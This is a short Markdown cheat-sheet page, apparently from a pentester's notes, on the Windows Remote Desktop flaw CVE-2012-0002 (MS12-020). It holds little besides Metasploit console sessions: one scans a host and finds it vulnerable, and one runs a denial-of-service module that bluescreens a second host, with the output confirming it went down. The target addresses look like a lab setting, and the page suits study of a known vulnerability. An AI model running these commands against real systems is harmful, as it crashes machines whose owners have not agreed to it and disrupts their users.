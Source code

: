 ```yaml
---
title : "CVE-2012-0002"
# pre : ' '
description : "Vulnerabilities in Remote Desktop Could Allow Remote Code Execution."
date : 2020-03-23T11:21:55+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## CVE-2012-0002 | MS12-020

* MS12-020
* CVE-2012-0002
* CVE-2012-0152

### Scanner

```plain
msf5 > use auxiliary/scanner/rdp/ms12_020_check
```

## Examples

```plain
msf5 > use auxiliary/scanner/rdp/ms12_020_check
msf5 auxiliary(scanner/rdp/ms12_020_check) > set rhosts 10.10.10.16
msf5 auxiliary(scanner/rdp/ms12_020_check) > run

[+] 10.10.10.16:3389      - 10.10.10.16:3389 - The target is vulnerable.
[*] 10.10.10.16:3389      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### Exploit DoS

Will bluescreen the target.

```plain
msf5 > use auxiliary/dos/windows/rdp/ms12_020_maxchannelids
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > set rhosts 10.10.10.15
msf5 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > run
[*] Running module against 10.10.10.15

[*] 10.10.10.15:3389 - 10.10.10.15:3389 - Sending MS12-020 Microsoft Remote Desktop Use-After-Free DoS
[*] 10.10.10.15:3389 - 10.10.10.15:3389 - 210 bytes sent
[*] 10.10.10.15:3389 - 10.10.10.15:3389 - Checking RDP status...
[+] 10.10.10.15:3389 - 10.10.10.15:3389 seems down
[*] Auxiliary module execution completed
```

## URL List

- [Docs.microsoft.com - ms12-020](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2012/ms12-020)
